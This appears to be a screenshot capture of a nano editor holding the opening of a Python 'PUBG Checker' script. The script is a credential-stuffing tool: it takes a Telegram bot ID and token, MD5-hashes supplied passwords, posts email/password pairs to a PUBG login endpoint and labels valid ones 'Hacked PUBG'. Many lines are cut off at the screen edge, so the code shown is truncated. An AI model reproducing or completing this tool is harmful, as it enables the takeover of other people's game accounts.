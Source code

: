 # v._.4x
import os
os.system("clear")
import requests,hashlib,random,string,time
r = requests.session()
print("""
██████╗ ██╗   ██╗██████╗  ██████╗
██╔══██╗██║   ██║██╔══██╗██╔════╝ Checker
██████╔╝██║   ██║██████╔╝██║  ███╗
██╔═══╝ ██║   ██║██╔══██╗██║   ██║
██║     ╚██████╔╝██████╔╝╚██████╔╝
╚═╝      ╚═════╝ ╚═════╝  ╚═════╝
        @V._.4x

 sors cood by - @V._.4x

""")
ID= input('[+] Enter YOUR ID : ')
token = input('[+] Enter TOKEN BOT : ')
headPUB = {
        "Content-Type": "application/json; charset=utf-8",>
def CHECK(email,pess):
  eml = email
  pas = pess
  YES = f"""
[✓] Hacked PUBG :
[✓] Email: {eml}
[✓] Pass: {pas}
━━━━━━━━━━━━━"""
  NO = f"""
[-] NOT Hacked PUBG :
[-] Email: {eml}
[-] Pass: {pas}
━━━━━━━━━━━━━"""
  pes = hashlib.md5(bytes(f'{pas}', encoding='utf-8')).hex>
  J = hashlib.md5(bytes("/account/login?account_plat_type=>
  url = f"https://igame.msdkpass.com/account/login?account>
  daPU = "{\"account\":\""+eml+"\",\"account_type\":1,\"ar>
  time.sleep(0.5)
  GO=r.get(url, data=daPU,headers=headPUB).text
                     [ Read 57 lines ]
^G Help       ^O Write Out  ^W Where Is   ^K Cut
^X Exit       ^R Read File  ^\ Replace    ^U Paste
